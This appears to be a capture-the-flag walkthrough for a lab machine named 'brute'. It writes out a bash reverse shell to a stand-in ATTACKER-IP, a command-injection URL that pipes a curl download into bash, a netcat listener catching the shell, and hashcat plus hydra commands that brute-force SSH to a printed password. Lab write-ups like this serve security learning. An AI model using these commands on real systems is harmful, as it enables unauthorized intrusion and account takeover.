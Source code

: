
### Inital access

Starting by creating a simple shell

```bash
$ cat shell.sh
bash -i >& /dev/tcp/ATTACKER-IP/9001 0>&1
```

hosting this script on a python server

```bash
python3 -m http.server 80
```
starting a netcat listner on port 9001

next navigating to http://10.10.244.151/welcome.php?cmd=curl+http://ATTACKER-IP/shell.sh+|+bash

after pressing "log" we get a a connection back

```bash
$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.11.18.173] from (UNKNOWN) [10.10.244.151] 57054
bash: cannot set terminal process group (815): Inappropriate ioctl for device
bash: no job control in this shell
www-data@brute:/var/www/html$
```


### User access Adrian
After a lot of enumeration one file which evryone has read access to is ".reminder" in the home folder of the Adrian user

```bash
www-data@brute:/home/adrian$ cat .reminder
Rules:
best of 64
+ exclamation

ettubrute
```

Which could be a reference to  creating a customer word list using hashcat and bestof64 rules file with the baseword
'ettubrute' and 'ettubrute!' with a exclamation mark not to rule out the note "+ exclamation

```bash
$ hashcat  basewords.txt -r /usr/share/hashcat/rules/best64.rule --stdout > adrian-wordlist.txt
```

Next the custom wordlist can used with hydra to brutefor the ssh login (Do tak some time)

```bash
$ hydra -l adrian -P adrian-wordlist.txt 10.10.244.151 ssh 
....
....
....
[ATTEMPT] target 10.10.244.151 - login "adrian" - pass "3ttubrut3!" - 123 of 158 [child 10] (0/4)
[22][ssh] host: 10.10.244.151   login: adrian   password: theettubrute!
1 of 1 target successfully completed, 1 valid password found
```
